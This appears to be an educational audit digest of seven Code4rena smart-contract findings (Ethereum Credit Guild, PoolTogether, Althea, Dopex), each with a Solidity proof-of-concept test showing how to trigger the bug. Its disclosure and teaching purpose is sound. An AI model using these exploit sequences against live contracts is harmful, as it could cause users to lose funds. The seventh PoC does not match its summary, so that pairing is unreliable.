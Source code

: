 # ETAAcademy-Adudit: 4. Memory

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>04. Calculation</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>Math</th>
          <td>calculation</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] The creation of bad debt (mark-down of Credit) can force other loans in auction to also create bad debt

### Calculating debt during auctions

- Summary: It only records the loan's debt at the start of an auction, using the current `creditMultiplier`. If the creditMultiplier changes during the auction, callDebt may underestimate the actual debt. This could lead to only accepting bids during the auction's second phase if the borrower's debt exceeds available credit. Additionally, if the debt surpasses available credit, bad debt may occur during the auction.
- Impact & Recommendation: All other loans in auction at that time will also be forced to create bad debt. It suggests dynamically calculating callDebt during auctions based on the current creditMultiplier, rather than using a fixed snapshot, for more accurate debt assessment.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-03-the-creation-of-bad-debt-mark-down-of-credit-can-force-other-loans-in-auction-to-also-create-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Clones} from "@openzeppelin/contracts/proxy/Clones.sol";
    import {Test} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {MockERC20} from "@test/mock/MockERC20.sol";
    import {SimplePSM} from "@src/loan/SimplePSM.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {LendingTerm} from "@src/loan/LendingTerm.sol";
    import {AuctionHouse} from "@src/loan/AuctionHouse.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    contract BadDebtCreatesBadDebt is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address staker = address(0x01010101);
        address borrower = address(0x02020202);
        address lender = address(0x03030303);
        Core private core;
        ProfitManager private profitManager;
        CreditToken credit;
        GuildToken guild;
        MockERC20 collateral;
        MockERC20 pegToken;
        SimplePSM private psm;
        RateLimitedMinter rlcm;
        AuctionHouse auctionHouse;
        LendingTerm term;
        // LendingTerm params (same as deployment script)
        uint256 constant _CREDIT_PER_COLLATERAL_TOKEN = 1e18; // 1:1
        uint256 constant _INTEREST_RATE = 0.04e18; // 4% APR
        uint256 constant _MAX_DELAY_BETWEEN_PARTIAL_REPAY = 0;
        uint256 constant _MIN_PARTIAL_REPAY_PERCENT = 0;
        uint256 constant _HARDCAP = 2_000_000e18; // 2 million
        uint256 public issuance = 0;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManager = new ProfitManager(address(core));
            collateral = new MockERC20();
            pegToken = new MockERC20(); // 18 decimals for easy calculations (deployment script uses USDC which has 6 decimals)
            credit = new CreditToken(address(core), "name", "symbol");
            guild = new GuildToken(
                address(core),
                address(profitManager)
            );
            rlcm = new RateLimitedMinter(
                address(core) /*_core*/,
                address(credit) /*_token*/,
                CoreRoles.RATE_LIMITED_CREDIT_MINTER /*_role*/,
                0 /*_maxRateLimitPerSecond*/,
                0 /*_rateLimitPerSecond*/,
                uint128(_HARDCAP) /*_bufferCap*/
            );
            auctionHouse = new AuctionHouse(address(core), 650, 1800);
            term = LendingTerm(Clones.clone(address(new LendingTerm())));
            term.initialize(
                address(core),
                LendingTerm.LendingTermReferences({
                    profitManager: address(profitManager),
                    guildToken: address(guild),
                    auctionHouse: address(auctionHouse),
                    creditMinter: address(rlcm),
                    creditToken: address(credit)
                }),
                LendingTerm.LendingTermParams({
                    collateralToken: address(collateral),
                    maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                    interestRate: _INTEREST_RATE,
                    maxDelayBetweenPartialRepay: _MAX_DELAY_BETWEEN_PARTIAL_REPAY,
                    minPartialRepayPercent: _MIN_PARTIAL_REPAY_PERCENT,
                    openingFee: 0,
                    hardCap: _HARDCAP
                })
            );
            psm = new SimplePSM(
                address(core),
                address(profitManager),
                address(credit),
                address(pegToken)
            );
            profitManager.initializeReferences(address(credit), address(guild), address(psm));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(rlcm));
            core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(psm));
            core.grantRole(CoreRoles.CREDIT_REBASE_PARAMETERS, address(psm));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            // add gauge
            guild.setMaxGauges(10);
            guild.addGauge(1, address(term));
        }
        function testBadDebtCreatesBadDebt() public {
            // staker increases term debtCeiling
            guild.mint(staker, 1000e18);
            vm.startPrank(staker);
            guild.incrementGauge(address(term), 1000e18);
            vm.stopPrank();
            assertEq(guild.getGaugeWeight(address(term)), 1000e18);
            // term has 12 active loans all with various borrow sizes (1_000_000 in total loans)
            // 1st loan = 80_000e18
            collateral.mint(borrower, 1_000_000e18);
            uint256[] memory borrowAmounts = new uint256[](11);
            bytes32[] memory loanIds = new bytes32[](11);
            borrowAmounts[0] = 1_000e18;
            borrowAmounts[1] = 5_000e18;
            borrowAmounts[2] = 10_000e18;
            borrowAmounts[3] = 25_000e18;
            borrowAmounts[4] = 100_000e18;
            borrowAmounts[5] = 50_000e18;
            borrowAmounts[6] = 300_000e18;
            borrowAmounts[7] = 18_000e18;
            borrowAmounts[8] = 90_000e18;
            borrowAmounts[9] = 250_000e18;
            borrowAmounts[10] = 71_000e18;
            vm.prank(borrower);
            collateral.approve(address(term), 1_000_000e18);
            // create 1st loan (loan that will create bad debt)
            bytes32 loanId;
            vm.startPrank(borrower);
            loanId = term.borrow(80_000e18, 80_000e18);
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 13);
            vm.stopPrank();
            // create the rest of the loans (loans that will be forced to create bad debt)
            for (uint256 i; i < borrowAmounts.length; i++) {
                vm.startPrank(borrower);
                loanIds[i] = term.borrow(borrowAmounts[i], borrowAmounts[i]);
                vm.roll(block.number + 1);
                vm.warp(block.timestamp + 13);
                vm.stopPrank();
            }

            assertEq(term.issuance(), 1_000_000e18);
            assertEq(credit.balanceOf(borrower), 1_000_000e18);
            assertEq(credit.totalSupply(), 1_000_000e18);
            // lenders supply 1_000_000 pegToken in psm (credit.totalSupply == 2_000_000)
            pegToken.mint(lender, 1_000_000e18);
            vm.startPrank(lender);
            pegToken.approve(address(psm), 1_000_000e18);
            psm.mintAndEnterRebase(1_000_000e18);
            vm.stopPrank();
            assertEq(credit.totalSupply(), 2_000_000e18);
            // half a year later all loans accrued ~2% interest
            vm.warp(block.timestamp + (term.YEAR() / 2));

            // term is offboarded
            guild.removeGauge(address(term));
            assertEq(guild.isGauge(address(term)), false);
            // one loan is called before the others and it creates bad debt (markdown > % interest owed by other loans)
            term.call(loanId);
            // no ones bids and loan creates bad debt (worse case scenario)
            vm.warp(block.timestamp + auctionHouse.auctionDuration());
            (, uint256 creditAsked) = auctionHouse.getBidDetail(loanId);
            assertEq(creditAsked, 0); // phase 2 ended
            // all loans called via callMany right before bad debt + markdown occurs
            // to demonstrate that any auctions live while markdown occurred would be affected (including auctions in diff terms)
            term.callMany(loanIds);
            // bad debt created, i.e. markdown of 4%
            // note that for demonstration purposes there are no surplus buffers
            auctionHouse.forgive(loanId);
            assertEq(term.issuance(), 1_000_000e18 - 80_000e18);
            assertEq(credit.totalSupply(), 2_000_000e18);
            assertEq(profitManager.creditMultiplier(), 0.96e18); // credit marked down
            // no one can bid during phase 1 of any other loans that were in auction when the markdown occurred
            // due to principle > creditFromBidder, therefore collateral to borrower must be 0, i.e. all collateral is offered, i.e. must be phase 2
            for (uint256 i; i < loanIds.length; i++) {
                ( , creditAsked) = auctionHouse.getBidDetail(loanIds[i]);
                // verify we are in phase 1 (creditAsked == callDebt)
                assertEq(auctionHouse.getAuction(loanIds[i]).callDebt, creditAsked);
                // attempt to bid during phase 1
                credit.mint(address(this), creditAsked);
                credit.approve(address(term), creditAsked);
                vm.expectRevert("LendingTerm: invalid collateral movement");
                auctionHouse.bid(loanIds[i]);
            }
            // fast forward to the beginning of phase 2
            vm.warp(block.timestamp + auctionHouse.midPoint());
            vm.roll(block.number + 1);
            // all other loans that are in auction will be forced to only receive bids in phase 2
            // bad debt is gauranteed to be created for all these loans, so user's are incentivized to
            // bid at the top of phase 2. This would result in the liquidator receiving the collateral at a discount.
            // The loans with less accrued interest and a bigger principle/borrow amount will result in a bigger loss, i.e. greater markdown
            emit log_named_uint("creditMultiplier before updates", profitManager.creditMultiplier());

            uint256 collateralReceived;
            for (uint256 i; i < loanIds.length; i++) {
                (collateralReceived, creditAsked) = auctionHouse.getBidDetail(loanIds[i]);
                // verify we are at the top of phase 2 (collateralReceived == collateralAmount | creditAsked == callDebt)
                assertEq(auctionHouse.getAuction(loanIds[i]).callDebt, creditAsked);
                assertEq(auctionHouse.getAuction(loanIds[i]).collateralAmount, collateralReceived);
                // bid at top of phase two (bidder receives collateral at a discount & protocol incurs more bad debt)
                credit.mint(address(this), creditAsked);
                credit.approve(address(term), creditAsked);
                auctionHouse.bid(loanIds[i]);
                multiplierUpdated();
            }
        }
        function multiplierUpdated() internal {
            // credit multiiplier decreases which each auction
            uint256 multiiplier = profitManager.creditMultiplier();
            emit log_named_uint("creditMultiplier updated", multiiplier);
        }
    }


  ```

  </details>

## 2.[High] Users staking via the SurplusGuildMinter can be immediately slashed when staking into a gauge that had previously incurred a loss

### Initialization user's lastLoss

- Summary: If the gauge has experienced a loss in the past, even if the user staked during a profitable period, they may be immediately slashed upon staking. This happens because the code initializes the user's stake struct with default values, which will identify this user as being slashed, i.e. slashed = true, due to lastGaugeLoss > userStake.lastGaugeLoss.

- Impact: The `SurplusGuildMinter` should initialize a user's **`lastGaugeLoss`** to the current block timestamp, so that comparisons with **`lastGaugeLoss`** won't be made against a freshly initialized user stake struct, preventing potential issues with loss of stake and rewards.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-04-users-staking-via-the-surplusguildminter-can-be-immediately-slashed-when-staking-into-a-gauge-that-had-previously-incurred-a-loss) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
      function testUserImmediatelySlashed() public {
        // initial state
        assertEq(guild.getGaugeWeight(term), 50e18);
        // add credit to surplus buffer
        credit.mint(address(this), 100e18);
        credit.approve(address(profitManager), 50e18);
        profitManager.donateToSurplusBuffer(50e18);
        // term incurs loss
        profitManager.notifyPnL(term, -50e18);
        assertEq(guild.lastGaugeLoss(term), block.timestamp);
        // term offboarded
        guild.removeGauge(term);
        assertEq(guild.isGauge(term), false);
        // time passes and term is re-onboarded
        vm.roll(block.number + 100);
        vm.warp(block.timestamp + (100 * 13));
        guild.addGauge(1, term);
        assertEq(guild.isGauge(term), true);
        // user stakes into term directly
        address user = address(0x01010101);
        guild.mint(user, 10e18);
        vm.startPrank(user);
        guild.incrementGauge(term, 10e18);
        vm.stopPrank();
        // user can un-stake from term
        vm.startPrank(user);
        guild.decrementGauge(term, 10e18);
        vm.stopPrank();
        // user stakes into term via sgm
        credit.mint(user, 10e18);
        vm.startPrank(user);
        credit.approve(address(sgm), 10e18);
        sgm.stake(term, 10e18);
        vm.stopPrank();

        // check after-stake state
        assertEq(credit.balanceOf(user), 0);
        assertEq(profitManager.termSurplusBuffer(term), 10e18);
        assertEq(guild.getGaugeWeight(term), 70e18);
        SurplusGuildMinter.UserStake memory userStake = sgm.getUserStake(user, term);
        assertEq(uint256(userStake.stakeTime), block.timestamp);
        assertEq(userStake.lastGaugeLoss, guild.lastGaugeLoss(term));
        assertEq(userStake.profitIndex, 0);
        assertEq(userStake.credit, 10e18);
        assertEq(userStake.guild, 20e18);
        // malicious actor is aware of bug and slashes the user's stake immediately, despite no loss occurring in the gauge
        sgm.getRewards(user, term);
        // check after-getReward state (user was slashed even though no loss has occurred since term was re-onboarded)
        assertEq(credit.balanceOf(user), 0);
        assertEq(profitManager.termSurplusBuffer(term), 10e18);
        assertEq(guild.getGaugeWeight(term), 70e18);
        userStake = sgm.getUserStake(user, term);
        assertEq(uint256(userStake.stakeTime), 0);
        assertEq(userStake.lastGaugeLoss, 0);
        assertEq(userStake.profitIndex, 0);
        assertEq(userStake.credit, 0);
        assertEq(userStake.guild, 0);
        // user tries to unstake but will not receive anything
        uint256 userBalanceBefore = credit.balanceOf(user);
        vm.startPrank(user);
        sgm.unstake(term, 10e18);
        vm.stopPrank();
        uint256 userAfterBalance = credit.balanceOf(user);
        assertEq(userBalanceBefore, 0);
        assertEq(userAfterBalance, 0);
    }

  ```

  </details>

## 3.[Medium] Anyone can prolong the time for the rewards to get distributed

### Minimum distribution

- Summary: each time the distribute call occurs, the endTimestamp gets extended. An attacker could exploit this by repeatedly calling distribute(1) to distribute 1 wei of a credit token daily, thereby extending the distribution period by approximately three times.

- Impact & Recommendation: Add a minimum required amount for calling distribute if it's not done by the ProfitManager, or change how rewards are interpolated.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-12-anyone-can-prolong-the-time-for-the-rewards-to-get-distributed) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testProlongDistribution() public {
        token.mint(alice, 10e18);
        token.mint(bobby, 20e18);
        vm.prank(alice);
        token.enterRebase();
        vm.prank(bobby);
        token.enterRebase();
        token.mint(address(this), 41e18);
        // Distribute 40 tokens
        uint256 amountToDistribute = 40e18;
        token.distribute(amountToDistribute);

        // Attackers calls distribute(1) each day to only distribute 1 wei of a token
        for(uint256 i = 0; i < 30; i++) {
            vm.warp(block.timestamp + 1 days);
            token.distribute(1);
        }
        uint256 distributedSupply = amountToDistribute - token.pendingDistributedSupply();
        console.log("Distributed supply after 30 days:");
        console.log("----------------------------------------------------");
        console.log("Distributed supply         : ", distributedSupply);
        console.log("Expected distributes supply: ", amountToDistribute);
        for(uint256 i = 0; i < 60; i++) {
            vm.warp(block.timestamp + 1 days);
            token.distribute(1);
        }
        console.log();
        distributedSupply = amountToDistribute - token.pendingDistributedSupply();
        console.log("Distributed supply after 90 days:");
        console.log("----------------------------------------------------");
        console.log("Distributed supply         : ", distributedSupply);
        console.log("Expected distributes supply: ", amountToDistribute);
    }

  ```

  </details>

## 4.[High] Any fee claim lesser than the total yieldFeeBalance as unit of shares is lost and locked in the PrizeVault contract

### Fee claimed less than the accrued balance

- Summary: If the fee claimed is less than the accrued balance, the remaining funds are locked in the PrizeVault with no way to retrieve them.

- Impact & Recommendation: If they claim less than the full amount, they forfeit the remainder, which can lead to loss of funds if not claimed in full. It is recommended to adjust the `claimYieldFeeShares` to only deduct the amount claimed/minted.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#h-01-any-fee-claim-lesser-than-the-total-yieldfeebalance-as-unit-of-shares-is-lost-and-locked-in-the-prizevault-contract) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    function testUnclaimedFeesLostPOC() public {
        vault.setYieldFeePercentage(1e8); // 10%
        vault.setYieldFeeRecipient(bob); // fee recipient bob
        assertEq(vault.totalDebt(), 0); // no deposits in vault yet
        // alice makes an initial deposit of 100 WETH
        underlyingAsset.mint(alice, 100e18);
        vm.startPrank(alice);
        underlyingAsset.approve(address(vault), 100e18);
        vault.deposit(100e18, alice);
        vm.stopPrank();
        console.log("Shares balance of Alice post mint: ", vault.balanceOf(alice));
        assertEq(vault.totalAssets(), 100e18);
        assertEq(vault.totalSupply(), 100e18);
        assertEq(vault.totalDebt(), 100e18);
        // mint yield to the vault and liquidate
        underlyingAsset.mint(address(vault), 100e18);
        vault.setLiquidationPair(address(this));
        uint256 maxLiquidation = vault.liquidatableBalanceOf(address(underlyingAsset));
        uint256 amountOut = maxLiquidation / 2;
        uint256 yieldFee = (100e18 - vault.yieldBuffer()) / (2 * 10); // 10% yield fee + 90% amountOut = 100%
        vault.transferTokensOut(address(0), bob, address(underlyingAsset), amountOut);
        console.log("Accrued yield post in the contract to be claimed by Bob: ", vault.yieldFeeBalance());
        console.log("Yield fee: ", yieldFee);
        // yield fee: 4999999999999950000
        // alice mint: 100000000000000000000
        assertEq(vault.totalAssets(), 100e18 + 100e18 - amountOut); // existing balance + yield - amountOut
        assertEq(vault.totalSupply(), 100e18); // no change in supply since liquidation was for assets
        assertEq(vault.totalDebt(), 100e18 + yieldFee); // debt increased since we reserved shares for the yield fee
        vm.startPrank(bob);
        vault.claimYieldFeeShares(1e17);

        console.log("Accrued yield got reset to 0: ", vault.yieldFeeBalance());
        console.log("But the shares minted to Bob (yield fee recipient) should be 4.9e18 but he only has 1e17 and the rest is lost: ", vault.balanceOf(bob));
        // shares bob: 100000000000000000
        assertEq(vault.totalDebt(), vault.totalSupply());
        assertEq(vault.yieldFeeBalance(), 0);
        vm.stopPrank();
    }

  ```

  </details>

## 5.[Medium] LiquidInfrastructureERC20.sol disapproved holders keep part of the supply, diluting approved holders revenue

### Dilute revenue

- Summary: Disapproving a holder in the LiquidInfrastructureERC20 contract stops them from receiving revenue, but they still keep part of the token supply, diluting revenue for approved holders. This happens because entitlements per token are calculated based on the total supply and ERC20 balances in the contract.

- Impact & Recommendation: To prevent dilution of revenue, burn tokens of disapproved holders in LiquidInfrastructureERC20. Track their balance at disapproval and mint the same amount upon reapproval.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure#m-01-liquidinfrastructureerc20sol-disapproved-holders-keep-part-of-the-supply-diluting-approved-holders-revenue) & [Report](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure)

  <details><summary>POC</summary>

  ```solidity
    function test_dilutedDistribution() public {
        address nftOwner1 = makeAddr("nftOwner1");
        uint256 rewardAmount1 = 1000000;
        nftOwners = [nftOwner1];
        vm.prank(nftOwner1);
        LiquidInfrastructureNFT nft1 = new LiquidInfrastructureNFT("nftAccount1");
        nfts = [nft1];
        // Register one NFT as a source of reward erc20s
        uint256 accountId = nft1.AccountId();
        thresholdAmounts = [0];
        // Transfer the NFT to ERC20 and manage
        vm.startPrank(nftOwner1);
        nft1.setThresholds(erc20Addresses, thresholdAmounts);
        nft1.transferFrom(nftOwner1, address(infraERC20), accountId);

        vm.stopPrank();
        assertEq(nft1.ownerOf(accountId), address(infraERC20));
        vm.expectEmit(address(infraERC20));
        emit AddManagedNFT(address(nft1));
        vm.startPrank(erc20Owner);
        infraERC20.addManagedNFT(address(nft1));
        vm.roll(1);
        // Allocate rewards to the NFT
        erc20A.transfer(address(nft1), rewardAmount1);
        assertEq(erc20A.balanceOf(address(nft1)), rewardAmount1);
        // And then send the rewards to the ERC20
        infraERC20.withdrawFromAllManagedNFTs();
        // Approve holders
        infraERC20.approveHolder(address(holder1));
        infraERC20.approveHolder(address(holder2));
        // Mint LiquidInfrastructureERC20 tokens to holders
        // 200 total supply of LiquidInfrastructureERC20 tokens
        infraERC20.mint(address(holder1), 100);
        infraERC20.mint(address(holder2), 100);
        // Wait for the minimum distribution period to pass
        vm.roll(vm.getBlockNumber() + 500);
        // Distribute revenue to holders
        infraERC20.distributeToAllHolders();
        console.log("First distribution (2 approved holders) \n  balance of holder 1: %s", erc20A.balanceOf(address(holder1)));
        console.log("balance of holder 2: %s", erc20A.balanceOf(address(holder2)));
        console.log("balance remaining in infraERC20: %s", erc20A.balanceOf(address(infraERC20)));
        // Wait for the minimum distribution period to pass
        vm.roll(vm.getBlockNumber() + 500);
        // Allocate more rewards to the NFT
        erc20A.transfer(address(nft1), rewardAmount1);
        infraERC20.withdrawFromAllManagedNFTs();
        // Holder 2 is no longer approved
        infraERC20.disapproveHolder(address(holder2));
        // Now there is 1 holder remaining, but the rewards are diluted
        infraERC20.distributeToAllHolders();
        console.log("\n  Second distribution (1 approved holder) \n  balance of holder 1: %s", erc20A.balanceOf(address(holder1)));
        console.log("balance of holder 2: %s", erc20A.balanceOf(address(holder2)));
        // There is remaining unallocated rewards in the contract
        console.log("balance remaining in infraERC20: %s", erc20A.balanceOf(address(infraERC20)));
        // holder 2 has 100 LiquidInfrastructureERC20 tokens, this dilutes the rewards
        assertEq(infraERC20.balanceOf(address(holder2)), 100);
        // Wait for the minimum distribution period to pass
        vm.roll(vm.getBlockNumber() + 500);
        // Distribute revenue to holders
        infraERC20.distributeToAllHolders();
        console.log("\n  Third distribution (1 approved holder) \n  balance of holder 1: %s", erc20A.balanceOf(address(holder1)));
        console.log("balance of holder 2: %s", erc20A.balanceOf(address(holder2)));
        console.log("balance remaining in infraERC20: %s", erc20A.balanceOf(address(infraERC20)));
    }

  ```

  </details>

## 6.[High] Improper precision of strike price calculation can result in broken protocol

### Calculation precision

- Summary: Due to precision issues, the protocol's calculation of the strike price for a PUT option on rDPX is flawed. The rounding function used imposes a minimum value, leading to incorrect premium calculations. For instance, a strike price intended to be 25% out-of-the-money (OTM) is rounded up, resulting in an in-the-money (ITM) strike price and inflated premiums.

- Impact & Recommendation: The value of the `roundingPrecision` is too high considering reasonable market prices of ETH and rDPX. Consider decreasing it.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-01-improper-precision-of-strike-price-calculation-can-result-in-broken-protocol) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
    /// @dev the precision to round up to
    uint256 public roundingPrecision = 1e6;

    ...
      uint256 strike = IPerpetualAtlanticVault(addresses.perpetualAtlanticVault)
      .roundUp(rdpxPrice - (rdpxPrice / 4)); // 25% below the current price
    ...

    function roundUp(uint256 _strike) public view returns (uint256 strike) {
        uint256 remainder = _strike % roundingPrecision;
        if (remainder == 0) {
        return _strike;
        } else {
        return _strike - remainder + roundingPrecision;
        }
   }

  ```

  </details>

## 7.[High] The peg stability module can be compromised by forcing lowerDepeg to revert

### update the totalWethDelegated

- Summary: 1) The attacker calls the addToDelegate function and deposits WETH into the rpdxV2Core contract, increasing the totalWethDelegated state variable. 2) Subsequently, the attacker calls the withdraw function, which does not update the totalWethDelegated variable, leaving it inflated. 3) The attacker then calls the sync function, inaccurately updating the WETH reserves by subtracting the inflated totalWethDelegated value. 4) When the admin attempts to restore the dpxETH/ETH peg by calling the lowerDepeg function, it reverts due to an underflow error caused by the manipulated WETH reserves.

- Impact & Recommendation: Update the totalWethDelegated in the `withdraw` function.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-08-the-peg-stability-module-can-be-compromised-by-forcing-lowerdepeg-to-revert) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testOptionPricingRevert() public {
        OptionPricingSimple optionPricingSimple;
        optionPricingSimple = new OptionPricingSimple(100, 5e6);
        (uint256 rdpxRequired, uint256 wethRequired) = rdpxV2Core
            .calculateBondCost(1 * 1e18, 0);
        uint256 currentPrice = vault.getUnderlyingPrice(); // price of underlying wrt collateralToken
        uint256 strike = vault.roundUp(currentPrice - (currentPrice / 4)); // 25% below the current price
        // around 14 minutes before next funding payment
        vm.warp(block.timestamp + 7 days - 863 seconds);
        uint256 timeToExpiry = vault.nextFundingPaymentTimestamp() -
            block.timestamp;
        console.log("What is the current price");
        console.log(currentPrice);
        console.log("What is the strike");
        console.log(strike);
        console.log("What is time to expiry");
        console.log(timeToExpiry);
        uint256 price = vault.getUnderlyingPrice();
        // will revert
        vm.expectRevert();
        optionPricingSimple.getOptionPrice(strike, price, 100, timeToExpiry);
    }

  ```

  </details>
